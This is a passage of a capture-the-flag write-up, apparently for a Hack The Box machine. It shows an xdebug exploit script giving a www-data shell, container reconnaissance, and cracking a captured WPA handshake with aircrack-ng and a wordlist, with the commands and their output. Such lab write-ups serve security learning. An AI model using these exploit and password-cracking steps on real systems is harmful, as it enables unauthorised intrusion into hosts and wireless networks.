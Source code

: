 The fifth link looked like a good exploit and it worked too.
```bash
./xdebug-shell.py --local-host=10.10.14.32 --url=http://10.10.10.83/index.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -l
total 116
-rw-r--r-- 1 root root   137 Apr  7  2018 crete.css
-rw-r--r-- 1 root root 67646 Apr  5  2018 favicon.ico
-rw-r--r-- 1 root root   362 Apr 15  2018 index.php
-rw-r--r-- 1 root root 37144 Apr  6  2018 zeus.jpg
```

This isn't a stable shell, so I spawned a reverse-shell, which is at least better than this one.
Also I don't find the user.txt flag and If I check IP for the box, it seems like I'm in a container.
```bash
www-data@f00ba96171c5:/var/www/html$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02
          inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:102 errors:0 dropped:0 overruns:0 frame:0
          TX packets:88 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:9161 (8.9 KiB)  TX bytes:20674 (20.1 KiB)
```

There exists one user named `zeus`, his home directory contains some files in the airgeddon directory:
```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ ls
captured.cap
papyrus.txt 
```

# airgeddon dump 
This `captured.cap` is a tcpdump data while running airgeddon on the network.
I can crack this capture file with `aircrack-ng`:
```bash
$ aircrack-ng captured.cap -w /usr/share/wordlists/rockyou.txt
Reading packets, please wait...
Opening captured.cap
Read 6498 packets.

   #  BSSID              ESSID                     Encryption

   1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening captured.cap
Read 6498 packets.
                               Aircrack-ng 1.6

      [00:00:00] 59/10303723 keys tested (1386.58 k/s)

      Time left: 2 hours, 3 minutes, 51 seconds                  0.00%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48

```